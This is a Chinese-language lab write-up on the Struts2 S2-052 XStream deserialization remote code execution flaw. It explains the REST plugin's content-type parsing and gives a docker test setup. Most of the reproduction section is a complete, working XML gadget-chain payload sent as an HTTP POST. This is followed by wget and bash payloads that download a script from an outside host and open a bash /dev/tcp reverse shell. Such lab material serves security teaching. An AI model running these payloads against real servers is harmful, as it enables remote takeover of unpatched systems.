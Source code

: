 # Struts2 S2-052 远程代码执行漏洞

## 漏洞描述

Struts2-Rest-Plugin是让Struts2能够实现Restful API的一个插件，其根据Content-Type或URI扩展名来判断用户传入的数据包类型，有如下映射表：

| 扩展名 | Content-Type                      | 解析方法               |
| ------ | --------------------------------- | ---------------------- |
| xml    | application/xml                   | xstream                |
| json   | application/json                  | jsonlib或jackson(可选) |
| xhtml  | application/xhtml+xml             | 无                     |
| 无     | application/x-www-form-urlencoded | 无                     |
| 无     | multipart/form-data               | 无                     |

jsonlib无法引入任意对象，而xstream在默认情况下是可以引入任意对象的（针对1.5.x以前的版本），方法就是直接通过xml的tag name指定需要实例化的类名：

```
<classname></classname>
//或者
<paramname class="classname"></paramname>
```

所以，我们可以通过反序列化引入任意类造成远程命令执行漏洞，只需要找到一个在Struts2库中适用的gedget。

漏洞详情:

- http://struts.apache.org/docs/s2-052.html
- https://yq.aliyun.com/articles/197926

## 影响版本

影响版本: Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12

## 环境搭建

Vulhub执行以下命令启动s2-052测试环境：

```
docker-compose build
docker-compose up -d
```

启动环境后，访问`http://your-ip:8080/orders.xhtml`即可看到showcase页面。

## 漏洞复现

由于rest-plugin会根据URI扩展名或Content-Type来判断解析方法，所以我们只需要修改orders.xhtml为orders.xml或修改Content-Type头为application/xml，即可在Body中传递XML数据。

所以，最后发送的数据包为：

```
POST /orders/3/edit HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/xml
Content-Length: 2415

<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>touch</string>
                        <string>/tmp/awesome_poc</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```

以上数据包成功执行的话，会在docker容器内创建文件`/tmp/awesome_poc`，执行`docker-compose exec struts2 ls /tmp/`即可看到。

![image-20220302131557533](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021315609.png)

### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：

```
<iter class="java.util.Collections$EmptyIterator"/>
    <next class="java.lang.ProcessBuilder">
        <command>
            <string>wget</string>
            <string>192.168.174.128/shell.sh</string>
        </command>
        <redirectErrorStream>false</redirectErrorStream>
    </next>
</iter>
```

执行shell.sh文件的命令为：

```
bash shell.sh
```

执行shell.sh文件的Payload为：

```
<iter class="java.util.Collections$EmptyIterator"/>
    <next class="java.lang.ProcessBuilder">
        <command>
            <string>bash</string>
            <string>shell.sh</string>
        </command>
        <redirectErrorStream>false</redirectErrorStream>
    </next>
</iter>
```

成功接收反弹shell：

![image-20220302131702195](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021317286.png)